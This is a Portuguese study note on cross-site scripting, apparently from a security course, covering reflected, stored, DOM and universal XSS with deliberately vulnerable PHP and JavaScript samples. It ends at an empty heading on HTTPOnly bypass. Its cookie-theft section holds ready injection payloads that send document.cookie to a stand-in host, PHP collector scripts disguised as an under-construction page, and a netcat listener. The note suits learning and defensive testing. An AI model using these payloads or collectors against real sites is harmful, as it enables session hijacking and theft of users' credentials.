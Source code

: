 O XSS acontece quando o browser renderiza conteúdos não confiáveis em um ambiente confiável. Se o conteúdo enviado contém uma linguagem dinâmica como HTML, JavaScript ou outro, o conteúdo vai ser executado

XSS pode ser dividido em duas categorias principais:
- Server-side
- Client-side (impacta somente o cliente)

## Reflected XSS

Ocorre quando dados não confiáveis são enviados pelo usuário para uma aplicação web e a resposta é imediatamente mostrada na tela

Exemplo de um código PHP com esse tipo de vulnerabilidade:
```php
<?php $name = @$_GET['name']; ?>
Welcome <?=$name?>
```

Normalmente para explorar essa vulnerabilidade é preciso criar links e envolve um pouco de engenharia social

## Persistent XSS

Também conhecido como Stored XSS, é similar ao reflected mas o seu conteúdo fica armazenado na aplicação web, dessa forma todos os visitantes da página são atingidos

Exemplo de um código PHP com esse tipo de vulnerabilidade:
```php
// Newcomers Logging System
<?php
$file = 'newcomers.log';
if(@$_GET['name']){
	$current = file_get_contents($file);
	$current .= $_GET['name']."\n";
	// Store the newcomer
	file_put_contents($file, $current);
}
// If admin show newcomers
if(@$_GET['admin']==1)
	echo file_get_contents($file);
```

## DOM XSS

É um tipo de XSS que acontece somente do lado do cliente. É muito similar ao Reflected XSS mas não interage com o servidor

Exemplo de um código vulnerável:
```html
<h1 id='welcome'></h1>
<script>
	var w = "Welcome ";
	var name = document.location.hash.substr(
		document.location.hash.search(/#w!/i)+3,
		document.location.hash.length
	);
	document.getElementById('welcome').innerHTML = w + name;
</script>
```

https://code.google.com/archive/p/domxsswiki/
## Universal XSS

Diferente dos outros 3 tipos de XSS o universal XSS não explora falhas em códigos, mas em browsers, extensões e plugins
# XSS Attacks

Para que o XSS pode ser usado?
## Cookie Gathering

O XSS pode ser usado para obter cookies de usuários, afim de obter informações sensíveis ou realizar um roubo de sessão

Normalmente o roubo de cookies possui 3 passos:
- Script Injection
- Cookie recording
- Logging
### Script Injection

Onde é injetado o payload malicioso que vai enviar os cookies para o nosso servidor. O DOM nos permite acessar os cookies usando o ```document.cookie```

Para realizar o roubo do cookie, é preciso enviar o conteúdo do document.cookie para algum lugar onde temos controle, isso pode ser feito usando um script como:
```javascript
new Image().src="http://hacker.site/C.php?cc="+escape(document.cookie);
```

Opções para diferentes cenários:
```html
<!-- Script Variable -->
<script> var a=">>INJ<<"; </script>
-> ";new Image().src="http://hacker.site/C.php?cc="+escape(document.cookie);//
-> ";new Audio().src="http://hacker.site/C.php?cc="+escape(document.cookie);//

<!-- Attribute -->
<div id=">>INJ<<">
-> x" onmouseover="new Image().src='http://hacker.site/C.php?cc='+escape(document.cookie)

<video width="320" height=">>INJ<<">
-> 240' src=x onerror="new Audio().src='http://hacker.site/C.php?cc='+escape(document.cookie)

<!-- HREF -->
<a href="victim.site/#>>INJ<<">
-> x" onclick="new Image().src='http://hacker.site/C.php?cc='+escape(document.cookie)
```

### Cookie Recording & Logging

São os próximos passos, nesse momento já temos uma requisição sendo feita enviando as informações para o nosso servidor, então é necessário tratar e armazenar essa informação

Seguindo o exemplo anterior, podemos supor que temos um script PHP escutando no nosso servidor e esse script vai armazenar as informações em um arquivo

Uma forma simples se fazer esse script é:
```php
<?php
error_reporting(0); # Turn off all error reporting

$cookie = $_GET['cc']; # request to log
$file = '_cc_.txt'; # the log file
$handle = fopen($file,"a"); # Open log file in append mode

# Append the cookie
fwrite($handle,$cookie."\n"); 
fclose($handle); 

echo '<h1>Page Under Construction</h1>'; # Trying to hide suspects...
```

Em um cenário onde temos um único servidor recebendo informações de múltiplas páginas web que foram exploradas, é necessário deixar o código um pouco mais complexo, adicionando algumas informações a mais que ajudaram a identificar a origem

Uma forma mas avançada:
```php
<?php error_reporting(0); # Turn off all error reporting
function getVictimIP(){...} # Function that returns th victim IP
function collect(){
	$file = '_cc_.txt'; # tho log file
	$date = date("1 dS of F Y h:i:s A"); # Date
	$IP = gitVictimIP(); # A function that returns victim IP
	$cookie = $SERVER['QUERY_STRING']; # All query string
	$info = "** other valuable information **";

	$log = "[$date]\n\t> Victim IP: $IP\n\t> Cookies: $cookie\n\t> Extra info: $info\n";
	$handle = fopen($file,"a"); # Open log file in append mode
	fwrite($handle,$log."\n\n"); 
	fclose($handle);
}
collect();
echo '<h1>Page Under Construction</h1>'; # Trying to hide suspects...
```
#### Netcat

Se precisa de uma solução rápida para receber os cookies, pode ser usado o netcat

```shell
sudo nc -lnvp 80
```

### Bypassing HTTPOnly Flag

